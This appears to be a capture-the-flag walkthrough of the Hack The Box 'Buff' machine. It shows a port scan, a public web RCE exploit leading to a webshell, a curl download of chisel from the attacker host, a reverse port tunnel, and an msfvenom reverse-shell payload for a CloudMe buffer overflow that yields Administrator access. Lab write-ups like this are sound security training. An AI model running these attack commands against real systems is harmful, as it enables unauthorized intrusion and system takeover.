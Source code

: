# Buff

![Untitled](Buff%2077d8e1f47570435d9f27cd856e6653d8/Untitled.png)

## Port Scan Results ⤵️

```bash
┌──(kali㉿kali)-[~/Downloads/HTB/Buff]
└─$ sudo nmap -sC -sV -p- -T4 -oN Nmap_Result.txt 10.10.10.198
[sudo] password for kali: 
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-01-11 10:01 IST
Nmap scan report for 10.10.10.198
Host is up (0.13s latency).
Not shown: 65533 filtered tcp ports (no-response)
PORT     STATE SERVICE    VERSION
7680/tcp open  pando-pub?
8080/tcp open  http       Apache httpd 2.4.43 ((Win64) OpenSSL/1.1.1g PHP/7.4.6)
|_http-title: mrb3n's Bro Hut
| http-open-proxy: Potentially OPEN proxy.
|_Methods supported:CONNECTION
|_http-server-header: Apache/2.4.43 (Win64) OpenSSL/1.1.1g PHP/7.4.6
```

## Web Enumeration ⤵️

I checked port 80 and got a simple static page where I found its CMS →

![Untitled](Buff%2077d8e1f47570435d9f27cd856e6653d8/Untitled%201.png)

Now I searched online and got a public exploit so lets use this exploit :

[Gym Management System 1.0 - Unauthenticated Remote Code Execution](https://www.exploit-db.com/exploits/48506)

It worked and I got a webshell →

![Untitled](Buff%2077d8e1f47570435d9f27cd856e6653d8/Untitled%202.png)

Lets have a proper shell through callback .

I got the reverse shell through `netcat` call back →

![Untitled](Buff%2077d8e1f47570435d9f27cd856e6653d8/Untitled%203.png)

I enumerated further for Administrator Privileges as this user does not have a required privileged to Escalate to Administrator user so →

```bash
C:\xampp\htdocs\gym\upload>whoami /priv
whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                          State   
============================= ==================================== ========
SeShutdownPrivilege           Shut down the system                 Disabled
SeChangeNotifyPrivilege       Bypass traverse checking             Enabled 
SeUndockPrivilege             Remove computer from docking station Disabled
SeIncreaseWorkingSetPrivilege Increase a process working set       Disabled
SeTimeZonePrivilege           Change the time zone                 Disabled

C:\xampp\htdocs\gym\upload>
```

I got this executable file from downloads directory of `shaun` user with its version as it name →

```powershell
PS C:\Users\shaun\Downloads> dir
dir

    Directory: C:\Users\shaun\Downloads

Mode                LastWriteTime         Length Name                                                                  
----                -------------         ------ ----                                                                  
-a----       16/06/2020     16:26       17830824 CloudMe_1112.exe                                                      

PS C:\Users\shaun\Downloads>
```

and also I checked the other network port connection and found out that 2 other services are accessible internally which are `cloudme` and `mysql` service.

```powershell
PS C:\Users\shaun\Downloads> netstat -q
netstat -q

Active Connections

  Proto  Local Address          Foreign Address        State
  TCP    0.0.0.0:135            BUFF:0                 LISTENING
  TCP    0.0.0.0:445            BUFF:0                 LISTENING
  TCP    0.0.0.0:5040           BUFF:0                 LISTENING
  TCP    0.0.0.0:7680           BUFF:0                 LISTENING
  TCP    0.0.0.0:8080           BUFF:0                 LISTENING
  TCP    0.0.0.0:49664          BUFF:0                 LISTENING
  TCP    0.0.0.0:49665          BUFF:0                 LISTENING
  TCP    0.0.0.0:49666          BUFF:0                 LISTENING
  TCP    0.0.0.0:49667          BUFF:0                 LISTENING
  TCP    0.0.0.0:49668          BUFF:0                 LISTENING
  TCP    0.0.0.0:49669          BUFF:0                 LISTENING
  TCP    10.10.10.198:139       BUFF:0                 LISTENING

  TCP    10.10.10.198:8080      10.10.16.10:59456      ESTABLISHED
  TCP    10.10.10.198:49761     10.10.16.10:microsoft-ds  ESTABLISHED
  TCP    127.0.0.1:3306         BUFF:0                 LISTENING
  TCP    127.0.0.1:8888         BUFF:0                 LISTENING
  TCP    0.0.0.0:49761          BUFF:0                 BOUND
  TCP    [::]:135               BUFF:0                 LISTENING
  TCP    [::]:445               BUFF:0                 LISTENING
  TCP    [::]:7680              BUFF:0                 LISTENING
  TCP    [::]:8080              BUFF:0                 LISTENING
  TCP    [::]:49664             BUFF:0                 LISTENING
  TCP    [::]:49665             BUFF:0                 LISTENING
  TCP    [::]:49666             BUFF:0                 LISTENING
  TCP    [::]:49667             BUFF:0                 LISTENING
  TCP    [::]:49668             BUFF:0                 LISTENING
  TCP    [::]:49669             BUFF:0                 LISTENING
  UDP    0.0.0.0:123            *:*                    
  UDP    0.0.0.0:5050           *:*                    
  UDP    0.0.0.0:5353           *:*                    
  UDP    0.0.0.0:5355           *:*                    
  UDP    0.0.0.0:63104          *:*                    
  UDP    10.10.10.198:137       *:*                    
  UDP    10.10.10.198:138       *:*                    
  UDP    10.10.10.198:1900      *:*                    
  UDP    10.10.10.198:56604     *:*                    
  UDP    127.0.0.1:1900         *:*                    
  UDP    127.0.0.1:56605        *:*                    
  UDP    127.0.0.1:59052        *:*                    
  UDP    [::]:123               *:*                    
  UDP    [::]:5353              *:*                    
  UDP    [::]:5355              *:*                    
  UDP    [::]:63104             *:*                    
  UDP    [::1]:1900             *:*                    
  UDP    [::1]:56603            *:*                    
  UDP    [fe80::3d02:50d:e22b:d235%10]:1900  *:*                    
  UDP    [fe80::3d02:50d:e22b:d235%10]:56602  *:*                    
PS C:\Users\shaun\Downloads>
```

Now I have to access this service externally so I have to do the port forwarding , therefore I used a tool called chisel that will redirect this port 8888 externally on 127.0.0.1 and I can access it through attacker machine .

I downloaded the windows chisel file and transfered it through `curl` command .

```powershell
PS C:\Users\shaun\Downloads> curl http://10.10.16.10/chisel_1.9.1_windows_amd64 -o chisel_1.9.1_windows_amd64
C:\Users\shaun\Downloads>.\chisel_1.9.1_windows_amd64 client 10.10.16.10:9000 R:8888:10.10.10.198:8888
.\chisel_1.9.1_windows_amd64 client 10.10.16.10:9000 R:8888:10.10.10.198:8888
2024/01/11 05:44:40 client: Connecting to ws://10.10.16.10:9000
2024/01/11 05:44:42 client: Connected (Latency 81.2309ms) 
```

I connected the client and server machine through port 9000 and acted attacker machine as a server machine to connect to.

```powershell
┌──(kali㉿kali)-[~/Downloads/HTB/Buff]
└─$ /opt/Tools/chisel server --port 9000 --reverse
2024/01/11 11:57:33 server: Reverse tunnelling enabled
2024/01/11 11:57:33 server: Fingerprint QI/KbQNfav2HY0UhCHivr7umoRvWOoNh+/423y4+6aM=
2024/01/11 11:57:33 server: Listening on http://0.0.0.0:9000
2024/01/11 11:57:35 server: session#1: Client version (1.9.1) differs from server version (1.7.7)
2024/01/11 11:57:35 server: session#1: tun: proxy#R:8888=>10.10.10.198:8888: Listening
```

Now I have the port running so lets check it through `NMAP` Tool.

```powershell
┌──(kali㉿kali)-[~/Downloads/HTB/Buff]
└─$ nmap -p 8888 127.0.0.1 -vv               
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-01-11 11:17 IST
Initiating Ping Scan at 11:17
Scanning 127.0.0.1 [2 ports]
Completed Ping Scan at 11:17, 0.00s elapsed (1 total hosts)
Initiating Connect Scan at 11:17
Scanning localhost (127.0.0.1) [1 port]
Discovered open port 8888/tcp on 127.0.0.1
Completed Connect Scan at 11:17, 0.00s elapsed (1 total ports)
Nmap scan report for localhost (127.0.0.1)
Host is up, received syn-ack (0.00041s latency).
Scanned at 2024-01-11 11:17:49 IST for 0s

PORT     STATE SERVICE        REASON
8888/tcp open  sun-answerbook syn-ack
```

Then I searched online related to `cloudme` exploit and through `searchsploit` Tool also I got the hit and I found out an exploit related to buffer overflow so lets use this exploit →

![Untitled](Buff%2077d8e1f47570435d9f27cd856e6653d8/Untitled%204.png)

I used this exploit in this exploit I have to generate a payload so I used this command instead of given command so make it run →

```powershell
┌──(kali㉿kali)-[~/Downloads/HTB/Buff]
└─$ msfvenom -p windows/shell_reverse_tcp LHOST=10.10.16.10 LPORT=443 EXITFUNC=thread -b "\x00\x0d\x0a" -f python
```

I pasted that payload into the exploit and clarified at last that `payload = buf` and ran the command .

![Untitled](Buff%2077d8e1f47570435d9f27cd856e6653d8/Untitled%205.png)

I ran the command and started netcat listener to capture the callback →

![Untitled](Buff%2077d8e1f47570435d9f27cd856e6653d8/Untitled%206.png)

```powershell
C:\Users\Administrator>tree /f /a
tree /f /a
Folder PATH listing
Volume serial number is A22D-49F7
C:.
+---3D Objects
+---CloudMe
+---Contacts
+---Desktop
|       Microsoft Edge.lnk
|       root.txt
|       
+---Documents
|       Tasks_real.bat
|       
+---Downloads
|       CloudMe_1112.exe
|       
+---Favorites
|   |   Bing.url
|   |   
|   \---Links
+---Links
|       Desktop.lnk
|       Downloads.lnk
|       
+---Music
+---OneDrive
+---Pictures
|   +---Camera Roll
|   \---Saved Pictures
+---Saved Games
+---Searches
|       winrt--{S-1-5-21-2277156429-3381729605-2640630771-500}-.searchconnector-ms
|       
\---Videos

C:\Users\Administrator>type Desktop\root.txt
type Desktop\root.txt
6f7cdc795dc7ad289e516c9288b61fd3

C:\Users\Administrator>
```

I am Administrator Now !!